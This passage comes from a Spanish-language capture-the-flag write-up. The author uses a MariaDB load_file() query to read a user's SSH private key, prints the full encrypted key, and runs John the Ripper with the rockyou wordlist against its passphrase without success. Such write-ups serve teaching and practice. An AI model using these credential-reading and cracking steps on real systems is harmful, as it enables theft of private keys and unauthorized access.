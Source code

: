 Sin embargo, para esta ocasión, es posible cargar un archivo local de la máquina, como la clave privada de un usuario

```null
MariaDB [mysql]> select load_file("/home/dorthi/.ssh/id_rsa");

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6

RV903H6V6lhKxl8dhocaEtL4Uzkyj1fqyVj3eySqkAFkkXms2H+4lfb35UZb3WFC
b6P7zYZDAnRLQjJEc/sQVXuwEzfWMa7pYF9Kv6ijIZmSDOMAPjaCjnjnX5kJMK3F
e1BrQdh0phWAhhUmbYvt2z8DD/OGKhxlC7oT/49I/ME+tm5eyLGbK69Ouxb5PBty
h9A+Tn70giENR/ExO8qY4WNQQMtiCM0tszes8+guOEKCckMivmR2qWHTCs+N7wbz
a//JhOG+GdqvEhJp15pQuj/3SC9O5xyLe2mqL1TUK3WrFpQyv8lXartH1vKTnybd
9+Wme/gVTfwSZWgMeGQjRXWe3KUsgGZNFK75wYtA/F/DB7QZFwfO2Lb0mL7Xyzx6
ZakulY4bFpBtXsuBJYPNy7wB5ZveRSB2f8dznu2mvarByMoCN/XgVVZujugNbEcj
evroLGNe/+ISkJWV443KyTcJ2iIRAa+BzHhrBx31kG//nix0vXoHzB8Vj3fqh+2M
EycVvDxLK8CIMzHc3cRVUMBeQ2X4GuLPGRKlUeSrmYz/sH75AR3zh6Zvlva15Yav
5vR48cdShFS3FC6aH6SQWVe9K3oHzYhwlfT+wVPfaeZrSlCH0hG1z9C1B9BxMLQr
DHejp9bbLppJ39pe1U+DBjzDo4s6rk+Ci/5dpieoeXrmGTqElDQi+KEU9g8CJpto
bYAGUxPFIpPrN2+1RBbxY6YVaop5eyqtnF4ZGpJCoCW2r8BRsCvuILvrO1O0gXF+
wtsktmylmHvHApoXrW/GThjdVkdD9U/6Rmvv3s/OhtlAp3Wqw6RI+KfCPGiCzh1V
0yfXH70CfLO2NcWtO/JUJvYH3M+rvDDHZSLqgW841ykzdrQXnR7s9Nj2EmoW72IH
znNPmB1LQtD45NH6OIG8+QWNAdQHcgZepwPz4/9pe2tEqu7Mg/cLUBsTYb4a6mft
icOX9OAOrcZ8RGcIdVWtzU4q2YKZex4lyzeC/k4TAbofZ0E4kUsaIbFV/7OMedMC
zCTJ6rlAl2d8e8dsSfF96QWevnD50yx+wbJ/izZonHmU/2ac4c8LPYq6Q9KLmlnu
vI9bLfOJh8DLFuqCVI8GzROjIdxdlzk9yp4LxcAnm1Ox9MEIqmOVwAd3bEmYckKw
w/EmArNIrnr54Q7a1PMdCsZcejCjnvmQFZ3ko5CoFCC+kUe1j92i081kOAhmXqV3
c6xgh8Vg2qOyzoZm5wRZZF2nTXnnCQ3OYR3NMsUBTVG2tlgfp1NgdwIyxTWn09V0
nOzqNtJ7OBt0/RewTsFgoNVrCQbQ8VvZFckvG8sV3U9bh9Zl28/2I3B472iQRo+5
uoRHpAgfOSOERtxuMpkrkU3IzSPsVS9c3LgKhiTS5wTbTw7O/vxxNOoLpoxO2Wzb
/4XnEBh6VgLrjThQcGKigkWJaKyBHOhEtuZqDv2MFSE6zdX/N+L/FRIv1oVR9VYv
QGpqEaGSUG+/TSdcANQdD3mv6EGYI+o4rZKEHJKUlCI+I48jHbvQCLWaR/bkjZJu
XtSuV0TJXto6abznSC1BFlACIqBmHdeaIXWqH+NlXOCGE8jQGM8s/fd/j5g1Adw3
-----END RSA PRIVATE KEY-----
```

La copio, y como está encriptada, la crackeo

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:06 DONE (2023-02-24 20:53) 0g/s 2179Kp/s 2179Kc/s 2179KC/s *7¡Vamos!
Session completed. 
```

Pero no encuentra la contraseña. Pruebo a crear un diccionario con las contraseñas que ya tengo
